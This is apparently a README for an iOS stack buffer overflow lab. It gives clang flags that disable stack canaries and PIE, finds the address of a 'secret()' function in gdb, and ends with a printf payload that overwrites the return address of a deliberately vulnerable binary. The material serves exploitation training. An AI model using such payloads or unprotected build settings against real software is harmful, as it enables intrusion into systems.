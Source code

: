 Classic Stack Buffer Overflow
=============================

**An alias to compile without protection using clang**

Where ``-mno-thumb`` is used to force 32 bits instead of 16 bits, `-fno-stack-protector` to disable stack canaries and ``-fno-pie`` to disable ASLR.

``alias clangd="clang -isysroot /var/theos/sdks/iPhoneOS9.3.sdk -mno-thumb -fno-stack-protector -fno-pie"``

**An alias to sign a binary**

``alias sign="ldid -S"``

**Location of the iOS crash logs**

``/var/mobile/Library/Logs/CrashReporter``

**Pointer to "secret()"**

This can be found using ``disassemble secret`` in gdb.

0x0000bf58 (\\x58\\xbf\\x00\\x00)

**Using "printf" to input malicious data into the binary**

``printf "AAAABBBBCCCCDDDDEEEE\x58\xbf\x00\x00" | ./vuln``